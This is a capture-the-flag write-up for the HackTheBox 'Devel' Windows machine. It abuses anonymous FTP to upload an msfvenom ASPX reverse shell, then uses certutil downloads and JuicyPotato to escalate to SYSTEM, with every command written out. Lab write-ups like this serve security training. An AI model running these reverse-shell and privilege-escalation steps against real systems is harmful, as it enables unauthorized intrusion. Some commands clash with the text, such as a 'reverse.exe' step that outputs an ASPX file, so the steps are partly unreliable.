# HackTheBox : Devel

This is a simple Windows box running a Microsoft IIS server. There is an FTP server running which allows annonymous login and a web page is hosted at port 80. The privelege escalation was 
quiet straight forward using JuicyPotato as there is ```SeImpersonatePrivilege ``` token is enabled which was a big clue for using this method.	

## Information Gathering

### Port scan 

```zsh
nmap -sS -sC -v 10.10.10.5 -p-
```
Result of the Nmap Scan

```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 11:49 EDT
NSE: Loaded 121 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Initiating Ping Scan at 11:49
Scanning 10.10.10.5 [4 ports]
Completed Ping Scan at 11:49, 0.31s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:49
Completed Parallel DNS resolution of 1 host. at 11:49, 0.00s elapsed
Initiating SYN Stealth Scan at 11:49
Scanning 10.10.10.5 [65535 ports]
Discovered open port 80/tcp on 10.10.10.5
Discovered open port 21/tcp on 10.10.10.5
SYN Stealth Scan Timing: About 2.86% done; ETC: 12:07 (0:17:34 remaining)
SYN Stealth Scan Timing: About 11.33% done; ETC: 11:58 (0:07:57 remaining)
SYN Stealth Scan Timing: About 20.75% done; ETC: 11:56 (0:05:48 remaining)
SYN Stealth Scan Timing: About 33.44% done; ETC: 11:55 (0:04:01 remaining)
SYN Stealth Scan Timing: About 45.68% done; ETC: 11:55 (0:03:00 remaining)
SYN Stealth Scan Timing: About 57.95% done; ETC: 11:54 (0:02:11 remaining)
SYN Stealth Scan Timing: About 71.94% done; ETC: 11:54 (0:01:22 remaining)
SYN Stealth Scan Timing: About 83.26% done; ETC: 11:54 (0:00:48 remaining)
Completed SYN Stealth Scan at 11:54, 277.14s elapsed (65535 total ports)
NSE: Script scanning 10.10.10.5.
Initiating NSE at 11:54
NSE: [ftp-bounce] PORT response: 501 Server cannot accept argument.
Completed NSE at 11:54, 7.77s elapsed
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Nmap scan report for 10.10.10.5
Host is up (0.22s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
| 03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS7

NSE: Script Post-scanning.
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Initiating NSE at 11:54
Completed NSE at 11:54, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 285.56 seconds
           Raw packets sent: 131254 (5.775MB) | Rcvd: 185 (8.124KB)

```

## Enumeration

### Discovery

From the nmap results, it was very clear as to what are the 2 interesting things

- FTP at port 21

- Webpage at port 80




### Generating a reverse shell to upload

```zsh
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f aspx > shell.aspx
```
 
## Exploitation

### Uploading the shell

- Simply Login into the FTP server with credentials `anonymous` and `anonymous`



- Upload the apsx reverse shell code which you generated using the msfvenom



### Getting the shell

Start a listener at port 443 (the port you defined in the msfvenom)

```zsh
nc -lvnp 4444
```

Visit the aspx page to start the reverse shell and head back to the listener


Now we have a shell back and should enumerate more inside to find more about the machine




### Privilege Escalation

We take a look at all the details of the system

```cmd 
systeminfo
```


Checking the privileges of the system we are working on

```cmd
whoami /priv
```

>SeImpersonatePrivilege        Impersonate a client after authentication Enabled 

Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user.
This was possible because service accounts usually have the “SeImpersonatePrivilege” privilege enabled.

This is the broken privilege which can be used to our advantage by juicy potato.

For this to escalate our privileges , we will need to the following things

- python simple http server in your attacker box
- certutil.exe to transfer files via my kali machine to the victim windows machine
- reverse.exe a new one to be used to get a shell with system privileges
- juicy potato to exploit the SeImpersonatePrivilege
- Place all the files that you want to upload in the same folder and then start the http server

>Download x86 version of Juicy potato from this: https://github.com/ivanitlearning/Juicy-Potato-x86/releases

```zsh
python -m SimpleHTTPServer 8000
```
Making a new reverse.exe

```zsh
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.10 LPORT=443 -f aspx > shell.aspx
```
Uploading the new reverse.exe 

```cmd
certutil.exe -urlcache -split -f http://10.10.14.10:8000/reverse.exe reverse.exe
```


Uploading JuicyPotatox86 as it is a 32 bit machine, so we will need the x86 bianry.

```cmd
certutil.exe -urlcache -split -f http://10.10.14.10:8000/Juicy.Potato.x86.exe Juicy.Potato.x86.exe 
```


Start a new listener at port 443

```zsh
nc -lvnp 443
```
To find the CLSID for the machine I used this link:
> https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows_7_Enterprise/README.md

Run Juicy potato

```cmd
Juicy.Potato.x86.exe -l 1337 -p reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```


Check the listener at port 443. You will now have a shell with System privileges



## Flags

***User Flag***



***Root Flag***




